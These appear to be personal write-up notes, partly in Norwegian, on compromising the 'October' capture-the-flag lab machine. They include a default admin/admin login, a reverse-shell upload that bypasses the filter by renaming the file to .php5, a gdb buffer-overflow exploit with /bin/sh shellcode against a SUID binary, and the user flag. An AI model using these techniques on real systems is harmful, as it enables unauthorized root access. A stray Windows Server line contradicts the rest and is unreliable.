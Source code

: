 ## october 10.10.10.16

Linux october 4.4.0-78-generic \#99~14.04.2-Ubuntu SMP Thu Apr 27 18:51:25 UTC 2017 i686 i686 i686 GNU/Linux

22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 \(Ubuntu Linux; protocol 2.0\)

80/tcp open  http    Apache httpd 2.4.7 \(\(Ubuntu\)\)

octobercms

**server 2003 sp2 x86**

* Retrieved x-powered-by header: PHP/5.5.9-1ubuntu4.21

  Potentially risky methods: PUT PATCH DELETE

[http://10.10.10.16/backend/backend/auth/signin](http://10.10.10.16/backend/backend/auth/signin)

suid enabled binaries / buffer overflows?

/usr/local/bin/ovrflw

Exploiting /usr/local/bin/ovrflw but NX bit is on and ASLR is enabled on the machine

**admin admin er login**

**upload rev shell i media en jpg, rename til php5 for å bypasse.**

/usr/local/bin/ovrflw

disassemble main

break \*0x080484c5

run $\(python -c "print\('A'\*32\)"\)

x/200xb $esp

0xbfcfc180 eller **0x bf cf c1 78**

quit

run $\(python -c "print\('A'\*200\)"\)

run $\(python -c "print\('A'\*112\)"\)

116 = 41 har 112 bytes med minne

med **run $\(python -c "print\('A'\*112+'BBBB'\)"\)**  blir til 42

\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80

112 - 28 byte shellcode = 84

run $\(python -c "print\('\x90'\*84+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'+'\x78\xc1\xcf\xbf'\)"\)



cat /home/harry/user.txt

**29161ca87aa3d34929dc46efc40c89c0**



